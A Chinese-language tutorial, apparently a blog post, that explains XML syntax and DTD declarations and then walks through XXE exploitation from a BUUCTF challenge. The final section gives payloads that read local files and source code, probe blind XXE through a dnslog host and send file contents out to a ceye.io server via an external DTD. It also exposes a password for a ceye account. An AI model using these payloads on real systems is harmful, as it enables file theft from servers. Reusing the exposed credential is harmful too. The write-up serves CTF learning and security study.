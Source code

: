 # XML简介

a) xml， eXtensible Markup Language， 可拓展标记语言.是一种标记语言.
b) xml是一种非常灵活的语言， 没有固定的标签， 所有的标签都可以自定义.
c) 通常，xml被用于信息的记录和传递. 因此xml经常用于充当配置文件

# XML格式

a) 声明信息 ,用于描述XML的版本,编码方式.

版本始终是1.0 编码一般选utf-8



```
<?xml version="1.0" encoding="UTF-8"?>
```

b) 根元素 (一对标签)

根元素有且仅有一个

c) xml是大小写敏感的

d) 标签是成对的,而且要正确嵌套

e) 属性值要使用双引号

下面id就是属性,""里面是属性值



```
<?xml version="1.0" encoding="utf-8"?>
<a>
	<aa id="101">
		xxx
	</aa>
</a>
```

f) 注释写法



```
<!-- 这里是注释-->
```



```
<?xml version="1.0" encoding="utf-8"?>
<books>
	<book>
		<name>
			xml101
		</name>
		<author>
			张三
		</author>
		<price>
			50.5
		</price>
	</book>
	<book>
		<name>
			xml102
		</name>
		<author>
			李四
		</author>
		<price>
			40.4
		</price>
	</book>
</books>
<!-- 这里是注释-->
```

可以直接用浏览器打开

[![img](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221811798-883476438.png)](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221811798-883476438.png)

还可以折叠

[![img](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221831430-1061889293.png)](https://img2020.cnblogs.com/blog/1863787/202007/1863787-20200718221831430-1061889293.png)

# DTD

## DTD简介

a) DTD , Document Type Definition,文档类型定义

b) DTD 用于约束xml的文档格式，保证xml是一个有效的xml.

c) DTD 可以分为两种，内部DTD,外部DTD.

## DTD内部声明

假如 DTD 被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：



```
<!DOCTYPE 根元素 [元素声明]>
```

元素声明语法 :

**数量词**

`+`: 出现一次或多次
`?`: 出现0次或一次
`*`: 出现任意次



# XML漏洞



利用方式1:(buuctf  Fake XML cookbook)

条件:**当输入错误用户名和密码时,服务段会返回用户名**

`<!DOCTYPE updateProfile [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./doLogin.php"> 
]>

<user><username>&xxe;</username><password>123</password></user>`

burpsuite抓包之后填充以上内容

#读取网页源码

利用方式2:

读取文件

`<!DOCTYPE updateProfile [
<!ENTITY xxe SYSTEM "file:///flag"> 
]>

<user><username>&xxe;</username><password>123</password></user>`

以上是存在回显的利用，输入的参数会在服务端中返回，那么当参数不回显时怎么利用呢？



当用户名错误和密码错误服务端直接返回登录成功和登录失败，不把输入的参数回显出来。这样即使存在XXE漏洞，我们直接构造读取文件的payload，由于数据不回显，我们也无法获取到读取的数据内容。

无回显只是不能获取数据内容，但实则攻击载荷还是会执行。所以可以利用ssrf快速的判断是否存在xxe漏洞(前提是服务器出网)：
使用dnslog平台([DNSLog Platform](http://www.dnslog.cn/))，利用xxe漏洞让服务器访问dnslog，如果存在访问记录就代表漏洞利用成功



`<!DOCTYPE updateProfile [
<!ENTITY % xxe SYSTEM "http://2n24n8.dnslog.cn">
%xxe; 
]>

<user><username>aaaa</username><password>123</password></user>`

那么如何获取数据内容呢？

**利用方式1:** 外部搭建http服务器，将读取的内容当作请求参数访问外部的Http服务器，查看http服务器的访问记录就能获取文件内容
利用[ceye](http://ceye.io/)平台(password:Chen88222030)接收http请求



`<!DOCTYPE updateProfile [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./doLogin.php">
<!ENTITY % dtd SYSTEM "http://本机ip:88/1.dtd">
%dtd;
%send;
]>

<user><username>aaaa</username><password>123</password></user>`

1.dtd内容如下

`<!ENTITY % all 
"<!ENTITY &#x25; send SYSTEM 'http://cyuhik.ceye.io/?data=%file;'>"
>
>%all;`